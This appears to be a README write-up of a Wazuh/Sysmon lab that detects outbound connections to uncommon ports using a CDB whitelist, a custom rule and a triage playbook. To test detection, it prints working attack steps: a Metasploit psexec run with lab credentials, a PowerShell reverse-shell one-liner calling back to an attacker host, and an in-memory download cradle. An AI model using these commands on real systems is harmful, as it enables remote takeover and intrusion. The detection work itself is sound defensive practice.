<div align="center">



# 🛡️ Detecting Abnormal Network Connections With Wazuh
### Enterprise SIEM Threat Detection • Windows Sysmon EID 3 • CDB Port Whitelisting • Metasploit PsExec & PowerShell C2 Simulation

[](https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9)
[](https://wazuh.com/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/)
[](.)
[](.)

**A comprehensive, production-grade guide to deploying the Wazuh Agent, integrating Microsoft Sysmon telemetry, configuring Constant Database (CDB) port baselines, writing custom detection rules, and catching real adversary C2 channels.**

</div>

---

## 📑 Table of Contents
1. [Lab Overview & Objectives](#lab-overview--objectives)
2. [Executive Summary & Quick Reference Matrix](#executive-summary--quick-reference-matrix)
3. [Architecture & Detection Pipeline](#architecture--detection-pipeline)
4. [Constant Database (CDB) List Engine Explained](#constant-database-cdb-list-engine-explained)
5. [Live Terminal & SIEM Demonstration (Animated GIF)](#live-terminal--siem-demonstration)
6. [Lab Environment & Network Topology](#lab-environment--network-topology)
7. [Step-by-Step Hands-on Walkthrough](#step-by-step-hands-on-walkthrough)
   * [Task 1: Deploying the Wazuh Agent on Windows](#task-1-deploying-the-wazuh-agent-on-windows)
     * [Step 1: Accessing the Lab Environment](#step-1-accessing-the-lab-environment)
     * [Step 2: Accessing Wazuh Dashboard & Checking Manager IP](#step-2-accessing-wazuh-dashboard--checking-manager-ip)
     * [Step 3: Deploying Wazuh Agent on Windows Server 2019](#step-3-deploying-wazuh-agent-on-windows-server-2019)
     * [Step 4: Verifying Active Agent in Wazuh Dashboard](#step-4-verifying-active-agent-in-wazuh-dashboard)
   * [Task 2: Setting Up Sysmon & Integrating with Wazuh](#task-2-setting-up-sysmon--integrating-with-wazuh)
     * [Step 5: Installing Microsoft Sysmon on Windows Target](#step-5-installing-microsoft-sysmon-on-windows-target)
     * [Step 6: Configuring Wazuh Agent to Ingest Sysmon Events](#step-6-configuring-wazuh-agent-to-ingest-sysmon-events)
   * [Task 3: Configuring the CDB List of Baseline Allowed Ports](#task-3-configuring-the-cdb-list-of-baseline-allowed-ports)
     * [Step 7: Creating the Common Ports CDB File](#step-7-creating-the-common-ports-cdb-file)
     * [Step 8: Registering the CDB List in Wazuh Manager ossec.conf](#step-8-registering-the-cdb-list-in-wazuh-manager-ossecconf)
   * [Task 4: Writing Custom Wazuh Detection Rule 115001](#task-4-writing-custom-wazuh-detection-rule-115001)
     * [Step 9: Adding Rule 115001 in local_rules.xml](#step-9-adding-rule-115001-in-local_rulesxml)
   * [Task 5: Attack Simulation & Real-Time SIEM Detection](#task-5-attack-simulation--real-time-siem-detection)
     * [Step 10: Verifying Kali Linux Attacker Network Identity](#step-10-verifying-kali-linux-attacker-network-identity)
     * [Step 11: Simulating Attack 1 — Metasploit SMB PsExec](#step-11-simulating-attack-1--metasploit-smb-psexec)
     * [Step 12: Triage Alert 1 — Metasploit Port 4444 Connection Detected](#step-12-triage-alert-1--metasploit-port-4444-connection-detected)
     * [Step 13: Crafting Standalone PowerShell Reverse Shell](#step-13-crafting-standalone-powershell-reverse-shell)
     * [Step 14: Staging HTTP Web Delivery & Netcat Listener](#step-14-staging-http-web-delivery--netcat-listener)
     * [Step 15: Executing Download Cradle on Windows Target](#step-15-executing-download-cradle-on-windows-target)
     * [Step 16: Triage Alert 2 — PowerShell Port 1234 Connection Detected](#step-16-triage-alert-2--powershell-port-1234-connection-detected)
8. [MITRE ATT&CK Mapping Matrix](#mitre-attck-mapping-matrix)
9. [Defensive Engineering & Detection Rules (Wazuh & Sigma)](#defensive-engineering--detection-rules)
10. [SOC Analyst Triage & Incident Response Playbook](#soc-analyst-triage--incident-response-playbook)
11. [Complete Screenshot Gallery (Steps 1–16)](#complete-screenshot-gallery)
12. [Conclusion & References](#conclusion--references)

---

## 🎯 Lab Overview & Objectives

In modern enterprise networks, adversaries frequently establish outbound Command and Control (C2) channels, deploy reverse shells, or perform lateral movement across non-standard or uncommon network ports to evade perimeter firewalls and basic security controls. 

Standard host firewalls often permit arbitrary outbound TCP connections initiated by internal workstations and servers. Without deep endpoint connection inspection, malicious callbacks such as Metasploit (`4444/TCP`) or ad-hoc reverse shells (`1234/TCP`, `1337/TCP`, `9001/TCP`) blend seamlessly into normal host traffic.

### Core Objectives:
1. **Deploy Wazuh Agent v4.3.10** silently on Windows Server 2019 and establish secure bidirectional communication with the Ubuntu Wazuh Server over TCP ports 1514/1515.
2. **Deploy Microsoft Sysmon v14.x** with custom XML configuration to log kernel-level network connection telemetry (**Sysmon Event ID 3**).
3. **Bridge Sysmon to Wazuh** by configuring the Windows Agent `ossec.conf` with the `Microsoft-Windows-Sysmon/Operational` event channel.
4. **Implement a Constant Database (CDB)** list containing trusted destination ports to establish an enterprise port whitelist baseline.
5. **Develop Wazuh Custom Rule 115001** (Level 10) utilizing `not_match_key` lookup logic against `win.eventdata.destinationPort`.
6. **Simulate Real-World Attacks** from Kali Linux using Metasploit `exploit/windows/smb/psexec` and in-memory PowerShell TCP download cradles, validating high-fidelity detections in the Wazuh Dashboard.

---

## 📌 Executive Summary & Quick Reference Matrix

| Parameter | Configuration / Value | Description |
| :--- | :--- | :--- |
| **Lab Platform** | [INE Security (Defender Labs)](https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9) | Hands-on SIEM Detection & Threat Monitoring |
| **Ubuntu SOC Manager IP** | `10.0.18.204` | Runs Wazuh Manager v4.3.10, Indexer, and Dashboard |
| **Windows Target IP** | `10.0.23.132` | Windows Server 2019 running Wazuh Agent & Sysmon |
| **Kali Attacker IP** | `10.10.21.2` | Attack machine hosting Metasploit, Python HTTP, Netcat |
| **Target Credentials** | `Administrator` / `abc_123321!@#` | Local administrative account |
| **Wazuh Dashboard URL** | `https://localhost` | Accessible on Ubuntu machine via Firefox |
| **Wazuh Dashboard Auth** | `admin` / `wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc` | Web UI credentials |
| **Telemetry Channel** | `Microsoft-Windows-Sysmon/Operational` | Captures Event ID 3 (Network Connection) |
| **CDB List Path** | `/var/ossec/etc/lists/common-ports` | Stores key-only port whitelist (`21:`, `80:`, `443:`, etc.) |
| **Custom Rule ID** | `115001` (Level 10) | Alerts on `not_match_key` for `destinationPort` |
| **Attack Vector 1** | Metasploit SMB PsExec Pass-the-Hash | Triggers alert for callback to Kali on **Port 4444** |
| **Attack Vector 2** | In-Memory PowerShell Reverse Shell | Triggers alert for callback to Netcat on **Port 1234** |
| **Lab Completion Status** | 🟢 **100% Solved** | Both anomalous callbacks detected in Wazuh Dashboard |

---

## 🏗️ Architecture & Detection Pipeline

The detection pipeline combines kernel-level instrumentation on Windows with high-performance list matching in the Wazuh Analysis Engine:




```mermaid
flowchart TD
    subgraph WindowsEndpoint ["Windows Server 2019 Target (10.0.23.132)"]
        A["Adversary Action / Payload<br/>(Metasploit / PowerShell)"] --> B["Kernel Network Socket Creation<br/>(Outbound TCP SYN)"]
        B --> C["Microsoft Sysmon Driver (SysmonDrv)<br/>Filters Network Traffic"]
        C --> D["Windows Event Log<br/>Microsoft-Windows-Sysmon/Operational<br/>Event ID 3: Network Connection"]
        D --> E["Wazuh Agent (WazuhSvc)<br/>localfile eventchannel reader"]
    end

    subgraph NetworkTransmission ["Encrypted Log Shipping"]
        E -->|"TLS Port 1514<br/>Encrypted Stream"| F["Wazuh Manager (10.0.18.204)"]
    end

    subgraph WazuhEngine ["Wazuh Analysis Engine (wazuh-analysisd)"]
        F --> G["XML Decoder / Sysmon Parser<br/>Extracts win.eventdata.* fields"]
        G --> H["Ruleset Evaluation Engine<br/>Matches Parent Rule sid: 61605"]
        H --> I{"CDB List Lookup<br/>lookup='not_match_key'<br/>etc/lists/common-ports"}
        I -->|"Port IN Whitelist<br/>(e.g., 80, 443, 53)"| J["Pass / Drop (No Alert)"]
        I -->|"Port NOT IN Whitelist<br/>(e.g., 4444, 1234)"| K["Trigger Custom Rule 115001<br/>Severity Level 10 (High)"]
    end

    subgraph SIEMDashboard ["Wazuh Security Dashboard"]
        K --> L["Elasticsearch / OpenSearch Indexer<br/>alerts-2026.10.*"]
        L --> M["Kibana/Wazuh UI Discover & Security Events<br/>SOC Analyst Alerts Visualized"]
    end

    style A fill:#450a0a,stroke:#ef4444,color:#fff
    style C fill:#1e3a8a,stroke:#3b82f6,color:#fff
    style E fill:#064e3b,stroke:#10b981,color:#fff
    style F fill:#1e1b4b,stroke:#6366f1,color:#fff
    style I fill:#451a03,stroke:#f59e0b,color:#fff
    style K fill:#7f1d1d,stroke:#f87171,color:#fff
    style M fill:#14532d,stroke:#22c55e,color:#fff
```

### Detection Engine Components:
1. **Microsoft Sysmon:** Operates as a kernel device driver (`SysmonDrv`) attached to the network stack. Whenever a process calls `connect()` or sends an outbound TCP frame, Sysmon records the parent process binary path, process GUID, user SID, source IP, source port, destination IP, and destination port.
2. **Wazuh Agent:** Reads Windows Event Tracing (ETW) and Windows Event Log channels natively using Windows API (`eventchannel` format), packing events into compressed, encrypted messages sent to the manager over TCP port 1514.
3. **Wazuh Analysis Engine (`wazuh-analysisd`):** Pre-compiles rules and Constant Databases into memory. It parses the Sysmon Event ID 3 XML into structured fields (`win.eventdata.destinationPort`), matches parent rule ID `61605`, and executes an $O(1)$ constant-time lookup against the compiled CDB port table.
4. **Wazuh Dashboard:** Presents the generated alerts with full forensic context: command lines, attacking IPs, compromised processes, and timestamp correlation.

---

## ⚡ Constant Database (CDB) List Engine Explained

A **Constant Database (CDB)** is a fast, reliable disk-to-memory structure created by Daniel J. Bernstein, designed for high-performance key-value lookups with zero lock contention and minimal overhead.



### Why Use CDB Lists for Port Filtering?
In enterprise SIEMs, hardcoding long port regexes (e.g., `<match>!^80$|^443$|^53$...`) inside XML rules creates massive performance bottlenecks and causes high CPU utilization on high-throughput log collectors.

Wazuh's CDB implementation solves this by compiling text files into binary `.cdb` hash tables:
* **Lookup Complexity:** $O(1)$ constant time regardless of whether the list contains 20 ports or 20,000 ports.
* **Format:** `key:value` (or `key:` when values are omitted).
* **In-Memory Compilation:** On manager startup or reload, Wazuh compiles `/var/ossec/etc/lists/common-ports` into `/var/ossec/etc/lists/common-ports.cdb`.
* **Rule Syntax:**
  ```xml
  <list field="win.eventdata.destinationPort" lookup="not_match_key">etc/lists/common-ports</list>
  ```
  If the destination port extracted from the Sysmon event does **not** exist as a key in the CDB list, the condition evaluates to **true** and the rule fires.

---

## 🎬 Live Terminal & SIEM Demonstration

The animated forensic demo below shows the full operational flow: deploying the Windows agent, configuring Sysmon log channels, authoring the CDB port whitelist, loading Rule 115001, executing Metasploit and PowerShell reverse shells from Kali, and observing real-time Level 10 alerts in the Wazuh Dashboard:



---

## 🖥️ Lab Environment & Network Topology

| Machine Role | Operating System | IP Address | Hostname / Description | Credentials |
| :--- | :--- | :--- | :--- | :--- |
| **SOC Manager** | Ubuntu 20.04 LTS | `10.0.18.204` | Wazuh Server, Indexer & Web Dashboard | `admin` / `wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc` |
| **Target Sensor** | Windows Server 2019 | `10.0.23.132` | Monitored Host with Sysmon & Wazuh Agent | `administrator` / `abc_123321!@#` |
| **Adversary Node** | Kali Linux | `10.10.21.2` | Attack Platform: Metasploit, Netcat, HTTP | `root` / `toor` (or `kali`) |

### Network Communication Matrix:
* **TCP Port 1514:** Wazuh Agent $\rightarrow$ Wazuh Manager (Encrypted Agent Data & Telemetry)
* **TCP Port 1515:** Wazuh Agent $\rightarrow$ Wazuh Manager (Agent Registration & Key Enrollment)
* **TCP Port 443:** Web Browser $\rightarrow$ Wazuh Dashboard (`https://localhost`)
* **TCP Port 445:** Kali $\rightarrow$ Windows Server 2019 (SMB Lateral Movement / PsExec)
* **TCP Port 4444:** Windows Target $\rightarrow$ Kali (Metasploit Default Reverse TCP Handler)
* **TCP Port 80:** Windows Target $\rightarrow$ Kali (HTTP Download Cradle for `mypowershell.ps1`)
* **TCP Port 1234:** Windows Target $\rightarrow$ Kali (Adversary Netcat Reverse Shell)

---

## 🚀 Step-by-Step Hands-on Walkthrough

### Task 1: Deploying the Wazuh Agent on Windows

#### Step 1: Accessing the Lab Environment
Open the lab link to access the GUI consoles of all three machines: **Ubuntu 20.04 (SOC Machine)**, **Windows Server 2019 (Target Machine)**, and **Kali Linux (Attacker Machine)**.



---

#### Step 2: Accessing Wazuh Dashboard & Checking Manager IP
On the Ubuntu machine, open Firefox and navigate to the local Wazuh Dashboard:
```text
URL: https://localhost
Username: admin
Password: wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc
```
Accept the self-signed SSL/TLS certificate warning. Upon logging in, notice that **0 active agents** are currently connected.

Next, open a terminal on Ubuntu and inspect the local network configuration:
```bash
ip addr
```
The output confirms the Wazuh Manager IP is **`10.0.18.204`**.



> [!NOTE]
> Wazuh Manager listens on two vital ports for agent management: port **1515/TCP** for the enrollment service (`wazuh-authd`), and port **1514/TCP** for ongoing agent communication and log forwarding (`wazuh-remoted`).

---

#### Step 3: Deploying Wazuh Agent on Windows Server 2019
Switch to the **Windows Server 2019** machine. The installer files are pre-staged in `C:\Users\Administrator\Desktop\Tools`.

Open an administrative PowerShell window and run the silent MSI installer specifying the Wazuh Manager IP:
```powershell
cd Desktop\Tools
msiexec.exe /i wazuh-agent-4.3.10-1.msi /q WAZUH_MANAGER="10.0.18.204" WAZUH_REGISTRATION_SERVER="10.0.18.204" WAZUH_AGENT_GROUP="default"
```

Wait a few moments for the installation to finish, then start the Wazuh Agent service:
```powershell
Start-Service -Name WazuhSvc
```

Verify that the service is running:
```powershell
Get-Service -Name WazuhSvc
```



> [!TIP]
> If your RDP session temporarily blips or disconnects when the service starts, simply reconnect. The agent registration service automatically handles cryptographic key exchange via port 1515.

---

#### Step 4: Verifying Active Agent in Wazuh Dashboard
Switch back to the **Ubuntu machine** and refresh the Wazuh Dashboard in Firefox. 

Navigate to **Wazuh** $\rightarrow$ **Agents**. You will now see **1 Active Agent**:
* **Agent ID:** `001`
* **Agent Name:** `WIN-SERVER-2019` (or default host designation)
* **IP Address:** `10.0.23.132`
* **Status:** `Active`



---

### Task 2: Setting Up Sysmon & Integrating with Wazuh

#### Step 5: Installing Microsoft Sysmon on Windows Target
Windows native event logs (Security Event Log 4688) capture process creation only if specific audit policies are enabled, but they lack rich network connection telemetry. **Microsoft Sysmon** provides deep visibility into process network activity via **Event ID 3**.

On the Windows machine, in the same `Desktop\Tools` directory, install Sysmon with the provided configuration file:
```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

Sysmon driver (`SysmonDrv`) and service (`Sysmon64`) will install and start automatically. You can verify that events are being recorded by opening **Event Viewer** $\rightarrow$ **Applications and Services Logs** $\rightarrow$ **Microsoft** $\rightarrow$ **Windows** $\rightarrow$ **Sysmon** $\rightarrow$ **Operational**.



---

#### Step 6: Configuring Wazuh Agent to Ingest Sysmon Events
To ship Sysmon events to the Wazuh Manager, open the agent configuration file located at `C:\Program Files (x86)\ossec-agent\ossec.conf` using Notepad or PowerShell:

Append the following `<localfile>` block within the `<ossec_config>` section:
```xml
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
```

Restart the agent service to apply the configuration:
```powershell
Restart-Service -Name WazuhSvc
```

Check the IP address of the Windows machine for later use:
```powershell
ipconfig
```
The output confirms the Windows target IP is **`10.0.23.132`**.



> [!IMPORTANT]
> The `<log_format>eventchannel</log_format>` tag instructs the Wazuh Windows agent to use the modern Windows Event Log API (EVTX / ETW), preserving full XML structured telemetry fields such as `win.eventdata.destinationPort` and `win.eventdata.image`.

---

### Task 3: Configuring the CDB List of Baseline Allowed Ports

#### Step 7: Creating the Common Ports CDB File
A Constant Database (CDB) list file consists of `key:value` pairs on individual lines. In our case, the port number is the unique key, and values are left blank (`port:`).

On the **Ubuntu machine**, navigate to `/var/ossec/etc/lists/` and create the `common-ports` file:
```bash
cd /var/ossec/etc/lists/
sudo vi common-ports
```

Add the baseline ports commonly used in the network:
```text
21:
22:
25:
53:
80:
135:
389:
443:
445:
993:
995:
1514:
1515:
3389:
3306:
5000:
5223:
8000:
8002:
8080:
8083:
8443:
```

Save and exit (`:wq`). Then set the correct file ownership and permissions required by Wazuh:
```bash
sudo chown wazuh:wazuh common-ports
sudo chmod 660 common-ports
```



---

#### Step 8: Registering the CDB List in Wazuh Manager ossec.conf
Open the manager configuration file `/var/ossec/etc/ossec.conf` on Ubuntu:
```bash
sudo vi /var/ossec/etc/ossec.conf
```

Locate the `<ruleset>` block and add the path to the newly created CDB list:
```xml
  <ruleset>
    <!-- Existing default lists and rules -->
    <list>etc/lists/common-ports</list>
  </ruleset>
```

Save the file and restart the Wazuh Manager to compile the list into in-memory CDB format:
```bash
sudo systemctl restart wazuh-manager
```



---

### Task 4: Writing Custom Wazuh Detection Rule 115001

#### Step 9: Adding Rule 115001 in local_rules.xml
In Wazuh's default Windows ruleset, **Rule ID 61605** is the parent rule triggered whenever a **Sysmon Event ID 3 (Network Connection)** event is ingested:
```xml
<!-- Default Wazuh Parent Rule for Sysmon EID 3 -->
<rule id="61605" level="0">
  <if_sid>61600</if_sid>
  <field name="win.system.eventID">^3$</field>
  <description>Sysmon - Event 3: Network connection</description>
</rule>
```

We will create a child rule that matches when `if_sid` is `61605` and the destination port is **not** present in our `common-ports` list.

Edit `/var/ossec/etc/rules/local_rules.xml` on Ubuntu:
```bash
sudo vi /var/ossec/etc/rules/local_rules.xml
```

Add the following rule block:
```xml
<group name="windows,sysmon,">
  <rule id="115001" level="10">
    <if_sid>61605</if_sid>
    <list field="win.eventdata.destinationPort" lookup="not_match_key">etc/lists/common-ports</list>
    <description>[Network connection]: Network connection to an Uncommon Port $(win.eventdata.destinationPort) by $(win.eventdata.image)</description>
  </rule>
</group>
```

Save the file and restart the Wazuh Manager:
```bash
sudo systemctl restart wazuh-manager
```

Verify that `wazuh-manager` restarted cleanly without syntax errors:
```bash
sudo systemctl status wazuh-manager --no-pager
```



> [!NOTE]
> * `id="115001"`: Custom user rules in Wazuh must have IDs between `100000` and `120000`.
> * `level="10"`: Triggers a high-severity alert in the Wazuh dashboard.
> * `lookup="not_match_key"`: Evaluates to true if the extracted `destinationPort` key does NOT match any entry in `etc/lists/common-ports`.
> * `$(win.eventdata.destinationPort)` and `$(win.eventdata.image)`: Dynamically interpolate the offending port number and binary path into the alert description.

---

### Task 5: Attack Simulation & Real-Time SIEM Detection

#### Step 10: Verifying Kali Linux Attacker Network Identity
Switch to the **Kali Linux** machine. Open a terminal and check the IP address:
```bash
ifconfig
```
The output confirms the Kali attacker machine IP is **`10.10.21.2`**.



---

#### Step 11: Simulating Attack 1 — Metasploit SMB PsExec
Adversaries with valid or compromised administrative credentials frequently move laterally using SMB PsExec. By default, Metasploit payloads stage an outbound reverse TCP connection to port `4444`.

On the Kali machine, launch Metasploit and configure the `windows/smb/psexec` module targeting the Windows Server 2019 machine:
```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.0.23.132
set SMBUser administrator
set SMBPass abc_123321!@#
exploit
```

Metasploit connects to the target via SMB (port 445), writes a payload binary/script, creates a remote service, executes the payload, and starts a reverse TCP handler on `10.10.21.2:4444`. 

A Meterpreter session opens successfully:
```text
[*] Meterpreter session 1 opened (10.10.21.2:4444 -> 10.0.23.132:49812)
```



*(Note: If the session does not open on the first try, run `exploit` again.)*

---

#### Step 12: Triage Alert 1 — Metasploit Port 4444 Connection Detected
Because port `4444` is **not** in our `common-ports` CDB whitelist, Sysmon captured the outbound socket creation from `rundll32.exe` / payload process, and Wazuh immediately triggered **Rule 115001**.

Switch to the **Ubuntu machine**, open the Wazuh Dashboard in Firefox, and navigate to **Security Events** (or **Discover**):
* **Rule ID:** `115001`
* **Rule Level:** `10`
* **Description:** `[Network connection]: Network connection to an Uncommon Port 4444 by C:\Windows\system32\rundll32.exe`
* **Source IP:** `10.0.23.132`
* **Destination IP:** `10.10.21.2`
* **Destination Port:** `4444`



You can now exit the Meterpreter session on Kali by typing `exit`.

---

#### Step 13: Crafting Standalone PowerShell Reverse Shell
Next, we will simulate a living-off-the-land (LotL) reverse shell initiated through PowerShell.

On the Kali machine, create a script named `mypowershell.ps1` configured to connect back to Kali (`10.10.21.2`) on non-standard port **`1234`**:
```bash
cat << 'EOF' > mypowershell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.21.2",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EOF
```



---

#### Step 14: Staging HTTP Web Delivery & Netcat Listener
On Kali, open two separate terminal tabs to stage the delivery and catch the shell:

**Terminal 1 — HTTP Staging Server (Port 80):**
```bash
python -m SimpleHTTPServer 80
```
*(On Python 3 systems: `python3 -m http.server 80`)*

**Terminal 2 — Netcat Listener (Port 1234):**
```bash
nc -lvp 1234
```



---

#### Step 15: Executing Download Cradle on Windows Target
Switch to the **Windows machine**. In PowerShell, execute the in-memory download cradle:
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.21.2:80/mypowershell.ps1')"
```

Technical breakdown of this command:
1. `New-Object System.Net.WebClient`: Instantiates a .NET HTTP client.
2. `.DownloadString('http://...')`: Downloads `mypowershell.ps1` directly into RAM over port 80 (common port, no file touched on disk).
3. `IEX`: Invokes the script directly in memory, initiating a raw TCP socket connection back to Kali on **Port 1234**.

Switch back to the **Kali Netcat tab**. The connection is received immediately:
```text
connect to [10.10.21.2] from (UNKNOWN) [10.0.23.132] 49830
PS C:\Users\Administrator> whoami
win-server-2019\administrator
```



---

#### Step 16: Triage Alert 2 — PowerShell Port 1234 Connection Detected
Switch back to the **Ubuntu machine** and refresh the **Wazuh Dashboard** $\rightarrow$ **Security Events**.

Notice the new High-Severity Level 10 alert:
* **Rule ID:** `115001`
* **Rule Level:** `10`
* **Description:** `[Network connection]: Network connection to an Uncommon Port 1234 by C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* **Agent:** `WIN-SERVER-2019` (`10.0.23.132`)
* **Destination IP:** `10.10.21.2`
* **Destination Port:** `1234`
* **Initiating Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`



Both attack vectors have been successfully detected and correlated in real time!

---

## 🎯 MITRE ATT&CK Mapping Matrix

| Tactic | Technique ID | Technique Name | Simulation / Artifact in Lab | Wazuh Detection Capability |
| :--- | :--- | :--- | :--- | :--- |
| **Execution** | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | PowerShell | `powershell -c "IEX(...)"` in-memory download cradle | Sysmon EID 3 captures `powershell.exe` outbound socket |
| **Lateral Movement** | [T1021.002](https://attack.mitre.org/techniques/T1021/002/) | SMB/Windows Admin Shares | Metasploit `exploit/windows/smb/psexec` over port 445 | Wazuh monitors remote service installation & execution |
| **Defense Evasion** | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) | Pass the Hash | Metasploit SMB authentication using admin credentials | Correlated with anomalous outbound execution |
| **Command & Control** | [T1571](https://attack.mitre.org/techniques/T1571/) | Non-Standard Port | Reverse TCP connections to ports `4444` and `1234` | **Rule 115001** via CDB `not_match_key` lookup |
| **Command & Control** | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Web Protocols | Downloading staging script over HTTP port 80 | Sysmon EID 3 tracks source, destination, and payload URI |
| **Exfiltration** | [T1041](https://attack.mitre.org/techniques/T1041/) | Exfiltration Over C2 Channel | Interactive command shell output piped back to Netcat | Sysmon tracks ongoing byte counts and session duration |

---

## 🛡️ Defensive Engineering & Detection Rules

### 1. Production Wazuh Rule Definition (`local_rules.xml`)
Deploy this rule to detect outbound network connections to ports outside your enterprise baseline:

```xml
<!-- Custom Wazuh Detection Rule for Sysmon Network Connection to Non-Standard Ports -->
<group name="windows,sysmon,network_anomaly,">

  <rule id="115001" level="10">
    <if_sid>61605</if_sid>
    <list field="win.eventdata.destinationPort" lookup="not_match_key">etc/lists/common-ports</list>
    <description>[Network Anomaly]: Endpoint $(win.system.computer) established connection to Uncommon Port $(win.eventdata.destinationPort) via $(win.eventdata.image)</description>
    <mitre>
      <id>T1571</id>
      <id>T1059.001</id>
      <id>T1021.002</id>
    </mitre>
    <group>pci_dss_10.6.1,gdpr_IV_35.7.d,hipaa_164.312.b,</group>
  </rule>

  <!-- High-Fidelity Escalation: LOLBAS executing outbound to Uncommon Port -->
  <rule id="115002" level="12">
    <if_sid>115001</if_sid>
    <match>powershell.exe|cmd.exe|rundll32.exe|regsvr32.exe|certutil.exe|mshta.exe|wscript.exe|cscript.exe</match>
    <description>[CRITICAL C2 ALERT]: LOLBAS Binary $(win.eventdata.image) connected to Uncommon Port $(win.eventdata.destinationPort) on $(win.eventdata.destinationIp)</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1218</id>
      <id>T1571</id>
    </mitre>
  </rule>

</group>
```

---

### 2. Production Sigma Rule
For organizations running Elastic SIEM, Splunk, Microsoft Sentinel, or QRadar:

```yaml
title: Outbound Network Connection to Non-Standard Port via Scripting Interpreter
id: 8c34f210-9ef8-4dd7-b51f-6a9b44441234
status: production
description: Detects outbound network connections initiated by PowerShell, CMD, or LOLBAS binaries to non-standard destination ports.
author: Cyber-Blog Threat Detection Engineering
references:
  - https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9
  - https://attack.mitre.org/techniques/T1571/
logsource:
  product: windows
  service: sysmon
detection:
  selection_process:
    Image|endswith:
      - '\powershell.exe'
      - '\pwsh.exe'
      - '\cmd.exe'
      - '\rundll32.exe'
      - '\regsvr32.exe'
      - '\mshta.exe'
  filter_common_ports:
    DestinationPort:
      - 21
      - 22
      - 25
      - 53
      - 80
      - 135
      - 389
      - 443
      - 445
      - 993
      - 995
      - 1514
      - 1515
      - 3389
      - 8080
      - 8443
  condition: selection_process and not filter_common_ports
falsepositives:
  - Custom internal administrative tools or legacy database ports
  - Development servers running on high ports (e.g., node, flask)
level: high
tags:
  - attack.execution
  - attack.t1059.001
  - attack.command_and_control
  - attack.t1571
```

---

## 📋 SOC Analyst Triage & Incident Response Playbook

When Rule `115001` or `115002` triggers in the SOC queue:


```mermaid
flowchart TD
    Alert["🚨 Alert Fired: Rule 115001<br/>Uncommon Port Connection"] --> Triage1["Phase 1: Extract Telemetry<br/>Image, Initiated, DestinationIp, DestinationPort, User"]
    Triage1 --> Decision1{"Is Image a Known LOLBAS or Script?<br/>(powershell, rundll32, cmd, certutil)"}
    
    Decision1 -->|YES| InvestigateLOLBAS["Deep Process Tree Analysis<br/>Check ParentProcessName & CommandLine in Sysmon EID 1"]
    Decision1 -->|NO| CheckBinary["Hash & Authenticode Check<br/>Verify digital signature & reputation on VirusTotal"]
    
    InvestigateLOLBAS --> CheckIP{"Is Destination IP External & Unfamiliar?"}
    CheckBinary --> CheckIP
    
    CheckIP -->|YES| TruePositive["🔴 Confirmed True Positive (Active C2)<br/>1. Isolate Host from Network<br/>2. Terminate PID via EDR<br/>3. Block Destination IP at Perimeter<br/>4. Dump Process Memory for Forensics"]
    CheckIP -->|NO| FalsePositive{"Is Port Legitimate Internal Service?<br/>(e.g., custom API or monitoring tool)"}
    
    FalsePositive -->|YES| TuneCDB["🟢 Authorized Administrative Activity<br/>1. Verify change request ticket<br/>2. Add port: to common-ports CDB list<br/>3. Reload Wazuh Manager"]
    FalsePositive -->|NO| ThreatHunt["🟡 Suspicious Internal Connection<br/>Initiate Lateral Movement Investigation"]
```

### Immediate Containment Steps:
1. **Network Isolation:** Issue active response via Wazuh Agent or EDR to isolate endpoint `10.0.23.132` from the internal network while keeping the Wazuh management port `1514` open.
2. **Process Termination:** Terminate the offending PID (`powershell.exe` / `rundll32.exe`) immediately.
3. **Firewall Ingress/Egress Rule:** Block the adversary IP `10.10.21.2` across edge routers and firewalls.
4. **Credential Revocation:** Reset credentials for compromised account (`Administrator`) across the entire domain.

---

## 🖼️ Complete Screenshot Gallery

The 16 high-resolution terminal and SIEM screenshots below document every phase of the lab execution:

| Step # | Description | Preview |
| :---: | :--- | :--- |
| **01** | Lab Architecture & Endpoint Roles |  |
| **02** | Checking Wazuh Manager IP (`10.0.18.204`) |  |
| **03** | Silent MSI Agent Installation on Windows |  |
| **04** | Active Windows Agent in Wazuh Dashboard |  |
| **05** | Sysmon v14 Installation with `sysmonconfig.xml` |  |
| **06** | Agent `ossec.conf` Sysmon Channel Integration |  |
| **07** | Authoring `common-ports` CDB List |  |
| **08** | Registering CDB List in Manager `ossec.conf` |  |
| **09** | Writing Custom Detection Rule `115001` |  |
| **10** | Verifying Kali Linux IP (`10.10.21.2`) |  |
| **11** | Simulating Metasploit SMB PsExec Attack |  |
| **12** | Wazuh Level 10 Alert: Port 4444 Connection |  |
| **13** | Crafting `mypowershell.ps1` Reverse Shell |  |
| **14** | Python Web Staging & Netcat Port 1234 Listener |  |
| **15** | In-Memory PowerShell Download Cradle Execution |  |
| **16** | Wazuh Level 10 Alert: Port 1234 Connection |  |

---

## 🏁 Conclusion & References

In this lab, we successfully designed and validated an end-to-end endpoint detection capability against abnormal network connections using **Wazuh** and **Microsoft Sysmon**. 

